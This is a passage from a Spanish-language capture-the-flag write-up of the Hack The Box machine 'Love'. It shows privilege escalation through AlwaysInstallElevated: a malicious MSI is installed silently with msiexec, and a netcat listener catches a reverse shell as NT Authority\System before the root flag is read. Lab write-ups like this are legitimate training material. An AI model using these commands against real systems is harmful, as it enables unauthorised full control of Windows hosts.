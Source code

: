  [https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/](https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/)
 
 Y este archivo generado lo tendriamos que subir de la misma forma que el winPEAS a la maquina love.
 
 Lo ejecutamos de la siguiente manera:
 
 ```
 msiexec /quiet /qn /i shell.msi
 
 msiexec -> permite la ejecucion de msi desde consola
 /quiet -> Suprime cualquier mensaje al usuario durante la instalación
 /qn -> instalaciion sin GUI (interfaz grafica)
 /i -> Instalación regular
 ```
 
 [https://www.hackingarticles.in/windows-privilege-escalation-alwaysinstallelevated/](https://www.hackingarticles.in/windows-privilege-escalation-alwaysinstallelevated/)
 
 ya con escucha en el puerto 4545:
 
 ```
 nc -lvnp 4545
 ```
 
 obtenemos una rerverse shell como usuariio NT Authority\\System
 
  ![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/LOVE/images/27.png)
 
 ahora podemos leer la flag
 
 ```
 cd /Users/Administrator/Desktop
 type root.txt
 ```
 
   ![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/LOVE/images/28.png)
 
 